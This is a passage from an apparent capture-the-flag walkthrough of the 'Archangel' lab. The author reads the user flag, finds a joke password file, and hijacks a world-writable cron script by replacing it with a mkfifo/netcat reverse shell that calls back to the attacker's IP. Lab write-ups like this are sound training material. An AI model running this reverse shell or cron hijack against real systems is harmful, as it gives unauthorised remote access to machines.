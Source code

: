 <br>

I check to see if I can view the user flag in the **archangel** user directory and can giving us the answer to the **fifth** objective: **Get a shell and find the user flag**:

```
www-data@ubuntu:/var/www/html/development_testing$ cd /home/archangel
www-data@ubuntu:/home/archangel$ ls
myfiles  secret  user.txt
www-data@ubuntu:/home/archangel$ cat user.txt
thm{<REDACTED>}
www-data@ubuntu:/home/archangel$
```

We don't have access to visit the **secret** directory so I take a look in **myfiles** and find a file called **passwordbackup**. Opening that up will let you visit with our good friend Rick again:

```
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 .
drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 ..
-rw-r--r-- 1 root      root        44 Nov 18  2020 passwordbackup
www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup 
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

<br>

## Archangel

I look in the **/opt** directory and find some interesting files:

```
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh
```

Looking in the **helloworld.sh** script:

```
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

We have the ability to modify this script however we wish and looking at **/etc/crontab** shows that it automatically runs once per minute:

`cat /etc/crontab`

```
# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
```

We just need to modify the script to connect back to a listener on our system. I change it to this:

```
#!/bin/bash
#echo "hello world" >> /opt/backupfiles/helloworld.txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <MY IP> 5555 >/tmp/f
```
